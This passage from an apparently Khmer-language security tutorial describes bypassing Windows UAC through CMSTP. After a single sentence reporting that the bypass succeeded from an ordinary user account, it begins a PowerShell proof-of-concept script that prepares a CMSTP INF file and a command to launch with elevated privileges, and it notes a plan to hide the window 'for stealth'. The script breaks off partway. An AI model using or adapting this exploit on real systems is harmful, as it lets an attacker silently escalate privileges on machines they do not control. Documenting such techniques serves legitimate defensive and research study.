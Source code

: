![Bypass UAC](/en/posts/img/2022/12/bypass-uac-dll/bypass-uac-cmstp.png)

ដូចដែលបានឃើញគឺយើងអាចធ្វើការ Bypass UAC បានសម្រេចដោយឈរនៅលើសិទ្ធិអ្នកប្រើប្រាស់ធម្មតា៕

#### Bonus - Bypass With PS1 (One File Action)

{{< highlight powershell "linenos=table" >}}
# UAC Bypass poc using SendKeys
# Version 1.0
# Author: Oddvar Moe
# Functions borrowed from: https://powershell.org/forums/topic/sendkeys/
# Todo: Hide window on screen for stealth
# Todo: Make script edit the INF file for command to inject...


Function script:Set-INFFile {
[CmdletBinding()]
	Param (
	[Parameter(HelpMessage="Specify the INF file location")]
	$InfFileLocation = "$env:temp\CMSTP.inf",
	
	[Parameter(HelpMessage="Specify the command to launch in a UAC-privileged window")]
	[String]$CommandToExecute = 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' #your action here
	)
